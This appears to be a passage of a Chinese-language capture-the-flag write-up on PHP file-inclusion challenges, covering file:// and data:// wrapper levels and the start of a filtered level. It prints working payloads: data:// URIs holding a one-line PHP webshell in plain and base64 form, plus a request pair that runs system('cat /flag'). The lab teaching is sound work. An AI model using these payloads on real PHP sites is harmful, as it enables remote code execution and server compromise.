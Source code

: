 本题 Flag 有文本形式，只需要包含根目录下的 flag 文本即可： `?wrappers=/flag` 

最终执行的操作语句：`include("file:///flag");`

### Level 2 data协议

在注释引导中对该协议已经介绍的非常详细，其支持文本和base64形式。

> 如果传入的数据是PHP代码，就会执行代码：
>```
> data://text/plain,<?php phpinfo();?>
>
> data://text/plain,<?php eval($_POST['helloctf']);?>
>
> data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8+
>
> data://text/plain;base64,PD9waHAgZXZhbCgkX1BPU1RbJ2hlbGxvY3RmJ10pOz8+
>
> or data:text/plain
>```

当然要注意，去包含data协议中的内容其实相当于进行了一次远程包含，所以data协议的利用条件需要 `php.ini` 中开启 `allow_url_fopen` 和 `allow_url_include`

题目限定使用data协议：` include("data://text/plain".$_GET['wrappers'])`

本关卡的解法可以用引导中提供的一句话木马(文本和base64两种形式均可)：

**GET:** `?wrappers=,<?php eval($_POST['helloctf']);?>` 然后 **POST:**`helloctf=system('cat /flag');`

>当然您也可以尝试去 `cat flag.php` 这不会执行该部分代码，但是结果可能会以注释的方式添加到当前页面，所以请注意查看源代码。
>
>或者 建议使用 tac —— tac命令与cat命令展示内容相反，用于将文件以行为单位的反序输出，即第一行最后显示，最后一行先显示。

### Level 3 data协议_2

该关卡添加了过滤，但依旧只能使用data协议，观察正则和可用字符：

```php
<?php
$all_chars = array_merge(range(chr(32), chr(126)));

$regex = "/flag|\~|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\-|\_|\+|\=|\./i";

echo "可用字符: "."\n";
foreach ($all_chars as $char)
{
    if (!preg_match($regex, $char))
    {  
        echo $char." ";
        } 
    } 
    
?>
```
